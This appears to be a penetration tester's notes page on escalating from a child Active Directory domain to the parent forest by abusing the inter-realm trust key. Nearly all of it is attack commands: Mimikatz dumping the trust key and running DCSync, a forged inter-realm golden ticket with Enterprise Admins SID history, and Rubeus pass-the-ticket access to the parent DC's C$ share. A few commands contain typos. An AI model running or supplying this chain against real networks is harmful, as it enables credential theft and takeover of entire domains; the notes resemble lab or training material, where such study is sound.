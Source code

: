 **Requirements**

* DA on child
* SafetyKatz.exe on DC

### **Tool - Using TrustKey**

1. **Export Trustkey on DC**

<pre class="language-powershell"><code class="lang-powershell">Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dchostname
or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dom\forest-dc-host$"'
or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"

Output:
<strong>Domain: dom.local (dom/ S-1-5-2...) 
</strong>[ In ] sub.dom.lcao -> dom.local    
 => Take that rcklist4_hmac_nt  ....
 => We cant use AES key, they are not supported (?)
 The other keys like In-1 or In-2 are the old keys. They get rotaed every 30 days.

</code></pre>

2. **Forge an inter-realm TGT**

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberros::golden /user:Administrator /domain:sub.dom.local /sid:sid-of-current-domain /sids:sid-of-enterprise-admins-group-of-parent-domain /rc4:hash-of-trust-key-see-above-cmd /service:krbtgt /target:dom.local /ticket:C:\save-ticket-here.kirbi" "exit"


Invoke-mimikatz -command '"kerberos::golden /user:Administrator /domain:sub.dom.local /sid:sid-of-current-domain /sids:sid-of-enterprise-admins-group-of-parent-domain /rc4:hash-of-trust--key /service:krbtgt /target:dom.local /ticket:C:\save-ticket-here.kirbi'"
```
{% endcode %}

3. **Get a TGS for a Service in target domain with the new ticket / then use TGS to access targeted service/domain**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">rubeus.exe asktgs /ticket:C:\save-ticket-here.kirbi /service:cifs/forest-dc-hostname.dom.local /dc:forest-dc-hostname.dom.local /ptt
ls \\forest-dc-hostname.dom.local\c$

.\asktgs.exe C:\save-ticket-here.kirbi CIFS/forest-dc-hostname.dom.local

.\kirbikator.exe lsa .\CIFS/forest-dc-hostname.dom.local  //maybe need to do it twice
ls \\forest-dc-hostname.dom.local\c$
<strong>
</strong><strong>Then run DC Sync
</strong>C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:forestname\krbtgt /domain:forest.local" "exit"
</code></pre>
